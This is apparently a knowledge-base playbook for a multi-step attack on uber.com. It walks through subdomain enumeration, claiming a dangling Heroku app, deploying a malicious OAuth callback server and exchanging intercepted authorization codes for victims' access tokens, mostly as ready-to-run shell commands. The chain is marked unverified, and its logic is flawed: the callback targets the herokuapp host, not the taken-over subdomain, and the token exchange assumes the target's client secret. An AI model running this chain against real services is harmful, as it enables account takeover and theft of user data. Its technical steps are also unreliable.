

# Subdomain Takeover Leading to Account Takeover via OAuth Interception

Multi-stage attack chain demonstrating a complete attack workflow exploiting misconfigured DNS records for subdomain takeover, leading to OAuth callback interception and unauthorized account access.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Subfinder]]
- [[tools/Dig]]
- [[tools/Heroku-CLI]]

### Target Environment

- Public DNS records for target domain (e.g., uber.com)
- Access to Heroku account for claiming apps
- Network access to perform DNS queries and Heroku API interactions

### Initial Access Requirements

- No prior credentials needed for enumeration
- Heroku account required for takeover step
- Ability to host a malicious OAuth callback endpoint

## Detailed Attack Procedures

### Step 1: Subdomain Enumeration
procedure: [[procedures/Enumerate-Subdomains-for-Takeover]]

**Objective**: Identify potential subdomains of the target that may be vulnerable to takeover by enumerating common patterns and checking for dangling records.

**Instructions**: Use [[commands/subfinder-enumerate]] to discover subdomains:

```bash
subfinder -d uber.com -all -o subdomains.txt
```

Then, check for Heroku-specific subdomains by grepping for patterns like '*.herokuapp.com' or known dangling ones:

```bash
grep -i heroku subdomains.txt > heroku_subs.txt
```

**Expected Output**: A list of subdomains, including potential Heroku-pointing ones like 'example.uber.com'.

**Success Indicators**:
- Multiple subdomains discovered
- At least one subdomain matching cloud provider patterns (e.g., Heroku)

### Step 2: Verify Dangling DNS Record
procedure: [[procedures/Verify-Dangling-DNS-Record]]

**Objective**: Confirm if the identified subdomain has a dangling CNAME record pointing to a deleted or unclaimed cloud service.

**Instructions**: Query DNS for the subdomain using [[commands/dig-cname-query]]:

```bash
dig example.uber.com CNAME
```

If it returns a CNAME to a Heroku app (e.g., 'dangling-app.herokuapp.com'), attempt to access the Heroku app URL directly to check if it's available for claim:

```bash
curl -I https://dangling-app.herokuapp.com
```

**Expected Output**: DNS response showing CNAME to Heroku; HTTP response indicating the app is not found or claimable.

**Success Indicators**:
- CNAME points to a cloud provider
- Service returns error indicating deletion (e.g., 404 or claim prompt)

### Step 3: Claim Heroku App for Takeover
procedure: [[procedures/Claim-Heroku-App-for-Takeover]]

**Objective**: Register a new Heroku app with the dangling name to control the subdomain traffic.

**Instructions**: Log in to Heroku CLI using [[commands/heroku-login]]:

```bash
heroku login
```

Create the app with the dangling name:

```bash
heroku create dangling-app
```

Deploy a simple malicious app (e.g., Node.js server) to handle OAuth callbacks:

```bash
git init
heroku git:remote -a dangling-app
git add .
git commit -m "initial"
git push heroku main
```

**Expected Output**: Heroku app created and deployed; subdomain now resolves to your controlled app.

**Success Indicators**:
- App creation succeeds without conflict
- Subdomain traffic routes to your app

### Step 4: Intercept OAuth Callback for Account Takeover
procedure: [[procedures/Intercept-OAuth-Callback-for-Account-Takeover]]

**Objective**: Use the controlled subdomain to intercept Uber's OAuth authorization code and exchange it for user access tokens, achieving account takeover.

**Instructions**: Initiate Uber login flow pointing callback to the controlled subdomain (e.g., https://dangling-app.herokuapp.com/callback):

Configure the malicious app to capture the 'code' parameter from the callback URL.

Use [[commands/curl-oauth-initiate]] to simulate or trigger the flow:

```bash
curl "https://login.uber.com/oauth/authorize?client_id=UBER_CLIENT_ID&redirect_uri=https://dangling-app.herokuapp.com/callback&response_type=code&scope=profile"
```

In the app, extract the code and exchange for token:

```bash
curl -X POST "https://login.uber.com/oauth/token" \
  -d "client_id=UBER_CLIENT_ID" \
  -d "client_secret=UBER_SECRET" \
  -d "redirect_uri=https://dangling-app.herokuapp.com/callback" \
  -d "grant_type=authorization_code" \
  -d "code=CAPTURED_CODE"
```

**Expected Output**: Access token received, allowing API calls as the victim user.

**Success Indicators**:
- OAuth code intercepted
- Valid access token obtained
- Successful API access to user data

## Attack Chain Summary

### Key Achievements

1. Identified and verified a dangling Heroku subdomain on uber.com
2. Claimed control over the subdomain via Heroku
3. Intercepted OAuth callbacks to steal authorization codes
4. Achieved full account takeover with access to user profile and actions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Active Scanning]] Active Scanning
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Application Access Token]] Application Access Token

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Initial Access]] Initial Access
- [[Lateral Movement]] Lateral Movement

---
*Last updated: 2023-10-01T12:00:00Z*
